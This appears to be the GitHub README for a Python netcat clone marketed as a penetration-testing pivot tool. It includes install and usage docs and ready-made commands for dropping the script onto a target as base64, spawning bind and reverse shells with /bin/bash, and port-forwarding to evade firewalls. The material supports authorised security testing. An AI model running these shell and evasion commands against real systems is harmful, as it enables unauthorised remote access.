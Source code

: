 # netcat

**[Install](#tada-install)** |
**[TL;DR](#coffee-tldr)** |
**[Usage](#computer-usage)** |
**[cytopia sec tools](#lock-cytopia-sec-tools)** |
**[Contributing](#octocat-contributing)** |
**[Disclaimer](#exclamation-disclaimer)** |
**[License](#page_facing_up-license)**

[![](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)
[![PyPI](https://img.shields.io/pypi/v/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Status](https://img.shields.io/pypi/status/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Format](https://img.shields.io/pypi/format/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Implementation](https://img.shields.io/pypi/implementation/netcat)](https://pypi.org/project/netcat/)
[![PyPI - License](https://img.shields.io/pypi/l/netcat)](https://pypi.org/project/netcat/)

[![Build Status](https://github.com/cytopia/netcat/workflows/linting/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=linting)
[![Build Status](https://github.com/cytopia/netcat/workflows/building/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=building)
[![Build Status](https://github.com/cytopia/netcat/workflows/testing/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=testing)


Dependency-less Python 2 and Python 3 compatible implementation of netcat which works on 32bit and 64bit systems to easily pivot your target.

**Motivation**

To have a single tool for older, newer, 32bit and 64bit machines with relevant options (`-e`. `-L` and `-R`) to create bind shells, local and remote port-forwards.


**Todo**

The options `e`, `-n`, `-L`, and `-R` are still under development. See [Usage](#computer-usage) for other available options.


## :tada: Install
```bash
pip install netcat
```


## :coffee: TL;DR

#### Copy to target
```bash
# Copy base64 data to clipboard from where you have internet access
curl https://raw.githubusercontent.com/cytopia/netcat/master/bin/netcat.py | base64

# Paste it on the target machine
echo "<BASE64 STRING>" | base64 -d > netcat.py
chmod +x netcat.py
```
#### Summon shells
```bash
# bind shell
netcat.py -l -e '/bin/bash' 8080
```
```bash
# reverse shell
netcat.py -e '/bin/bash' example.com 4444
```
#### Port-forwarding without SSH
```bash
# Make local port available to public interface locally
netcat.py -L 127.0.0.1:3306 192.168.0.1 3306
```
```bash
# Remote port-forwarding to evade firewalls
netcat.py -R 127.0.0.1:3306 example.com 4444
```


## :computer: Usage
```
usage: netcat.py [-Cnuv] [-e cmd] hostname port
       netcat.py [-Cnuv] [-e cmd] -l [hostname] port
       netcat.py [-Cnuv] -L addr:port [hostname] port
       netcat.py [-Cnuv] -R addr:port hostname port
       netcat.py -V, --version
       netcat.py -h, --help


Netcat implementation in Python with connect, listen and forward mode.

positional arguments:
  hostname              Address to listen, forward or connect to
  port                  Port to listen, forward or connect to

mode arguments:
  -l, --listen          Listen mode: Enable listen mode for inbound connects
  -L addr:port, --local addr:port
                        Local forward mode: Specify local <addr>:<port> to which traffic
                        should be forwarded to.
                        Netcat will listen locally (specified by hostname and port) and
                        forward all traffic to the specified value for -L/--local.
  -R addr:port, --remote addr:port
                        Remote forward mode: Specify local <addr>:<port> from which traffic
                        should be forwarded from.
                        Netcat will connect remotely (specified by hostname and port) and
                        for ward all traffic from the specified value for -R/--remote.

optional arguments:
  -e cmd, --exec cmd    Execute shell command. Only works with connect or listen mode.
  -C, --crlf            Send CRLF as line-endings (default: LF)
  -n, --nodns           Do not resolve DNS
  -u, --udp             UDP mode
  -v, --verbose         Be verbose and print info to stderr. Use -vv or -vvv for more verbosity.

misc arguments:
  -h, --help            Show this help message and exit
  -V, --version         Show version information and exit

examples:

  Create bind shell
    netcat.py -l -e '/bin/bash' 8080

  Create reverse shell
    netcat.py -e '/bin/bash' example.com 4444

  Local forward: Make localhost port available to another interface
    netcat.py -L 127.0.0.1:3306 192.168.0.1 3306

  Remote forward: Forward local port to remote server
    netcat.py -R 127.0.0.1:3306 example.com 4444
```


## :lock: [cytopia](https://github.com/cytopia) sec tools

Below is a list of other sec tools I am maintaining.

| Tool                 | Category             | Language   | Description |
|----------------------|----------------------|------------|-------------|
| **[smtp-user-enum]** | Enumeration          | Python 2+3 | SMTP users enumerator |
| **[urlbuster]**      | Enumeration          | Python 2+3 | Mutable web directory fuzzer |
| **[netcat]**         | Pivoting             | Python 2+3 | Cross-platform netcat |
| **[badchars]**       | Reverse Engineering  | Python 2+3 | Badchar generator |
| **[fuzza]**          | Reverse Engineering  | Python 2+3 | TCP fuzzing tool |

[netcat]: https://github.com/cytopia/netcat
[smtp-user-enum]: https://github.com/cytopia/smtp-user-enum
[urlbuster]: https://github.com/cytopia/urlbuster
[badchars]: https://github.com/cytopia/badchars
[fuzza]: https://github.com/cytopia/fuzza


## :octocat: Contributing

See **[Contributing guidelines](CONTRIBUTING.md)** to help to improve this project.


## :exclamation: Disclaimer

This tool may be used for legal purposes only. Users take full responsibility for any actions performed using this tool. The author accepts no liability for damage caused by this tool. If these terms are not acceptable to you, then do not use this tool.


## :page_facing_up: License

**[MIT License](LICENSE.txt)**

Copyright (c) 2020 **[cytopia](https://github.com/cytopia)**
